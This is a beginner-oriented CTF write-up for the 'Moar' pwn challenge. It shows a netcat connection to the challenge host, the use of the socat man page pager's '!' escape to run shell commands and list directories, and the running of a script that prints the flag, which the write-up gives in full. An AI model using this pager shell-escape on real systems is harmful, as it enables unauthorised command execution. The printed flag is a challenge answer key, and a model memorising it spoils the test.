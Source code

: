 **Challenge: Moar**


Things are getting really interesting now. We are still at "level 2" but this is a first PWN challenge! Who doesnt like a good pwn!

Allright, no attachment this time, we are going for a network ride! Netcat! Depending on how you are appoaching this CTF (your setup)
it also depends how you will use the tools.

I strongly recommend installing a Virtual Machine software and creating a bunch of them for your needs. VMs are great all around for
anything and everything security related and with so many options (Snapshots for example) they are just... a must. If you are not
familliar with VMs, check out Youtube videos for setting some up. It is easy and will save you a ton of time because you can manage
multiple OSs for any ocassion and customize them like they are your main OS if you want.
Software to use is either VMWare or Oracle VirtualBox. I myself use VMWare but VirtualBox is more than fine and it is free! 

Lets assume you have either a Linux VM or a workstation and lets go with netcat (-v for verbose):

> nc -v moar.ctfcompetition.com 1337

Lo and behold a manual page! Linux manual page. If you never used linux or didnt use it much, MAN is basically go-to for everything
you need about a program. It is just full of useful information. Like this one, it is a man page for SOCAT.
SOCAT (http://www.dest-unreach.org/socat/doc/socat.html) is simillar to netcat but a little more powerful. Netcat is old so SOCAT should
replace it but those are still advanced features and it is your choice what to use. Use zcat if you want :)

Anyway, we see a MAN page for Socat. Hmm... Lets see if it is a real MAN page or something crafted. Just press "H" couple of times
and then quit. See how it behaves and how the bottom looks like. Then try to man something else. For example type "man printf" and
you will get a manual page for printf function (also quite a good read).
And we again press some H and Q to exit and we can tell that Socat man page is a real deal. But if that is the case, we might have
some opportunity ;) Man pages have been exploited a lot. Some severe bugs, some not so but still. Lets see what we can do.

I suggest you research and find some exploit to use but simplest thing to do here is just use ! to do a "shell-injection". It is not
a real shell-injection but it is still powerful. You can basically use any command you like. Try typing: !ls

Boom:


> Manual page socat(1) line 1 (press h for help or q to quit)!ls<br/>
> !ls<br/>
> bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var<br/>
> boot  etc  lib	 media	opt  root  sbin  sys  usr<br/>
> !done  (press RETURN)<br/>

So we can do a LOT with this. Now, a little lesson for everyone new to CTFs and about flags. Be it a PWN or a full Blackbox attack,
flag will in 90% of cases be in the high directories like /home or /some_user/... and even /Desktop. In some cases flag can be hidden
anywhere but if you pwn the box you will find it eventually. So we will do a:

> !ls -la /home<br/>
> total 12<br/>
> drwxr-xr-x  3 nobody nogroup 4096 Jun 14 14:17 .<br/>
> drwxr-xr-x 21 moar   moar    4096 Jun 29 14:36 ..<br/>
> drwxr-xr-x  2 nobody nogroup 4096 Jun 29 14:13 moar<br/>
> !done  (press RETURN)<br/>

And see, this is /home and has /moar directory. If you do the same command but just add:

> !ls -la /home/moar

you will get the contents of the moar directory and you can see the shell script. So just run it like this to remove the "DMZ" :)

> /home/moar:
> disable_dmz.sh
> !done  (press RETURN)!/home/moar/disable_dmz.sh

> !/home/moar/disable_dmz.sh
> Disabling DMZ using password CTF{SOmething-CATastr0phic}


This was a nice challenge. For beginners it clearly states that MANUAL pages are a very good source of information but like everything
else, there are always bugs to exploit which you can look up.





